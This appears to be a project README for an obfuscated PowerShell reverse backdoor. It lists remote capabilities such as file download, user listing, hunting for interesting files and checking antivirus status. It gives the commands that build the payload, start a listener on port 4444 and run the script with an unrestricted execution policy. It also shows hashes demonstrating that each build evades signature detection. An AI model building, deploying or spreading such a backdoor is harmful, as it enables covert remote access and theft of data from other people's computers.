 # powershell-backdoor
Reverse Backdoor written in Powershell and obfuscated with python. Allowing the backdoor to have a new signature after every run.

## Preview
![preview](preview.PNG)
<br>
## Features
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed

## Setup
Don't change the code inside template.ps1, instead run listen.py
```
PS C:\Users\DrewQ\Desktop> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:02cf166bbe6fdf8f3db4d3e6d04e5e2cf8b98a6b
[*] Starting Backdoor Listener 192.168.0.223:4444
```
No arguments are required, backdoor.ps1 will be dropped in the current working directory.

## Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status
* USB Rubber Ducky Support
* String encryption

## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
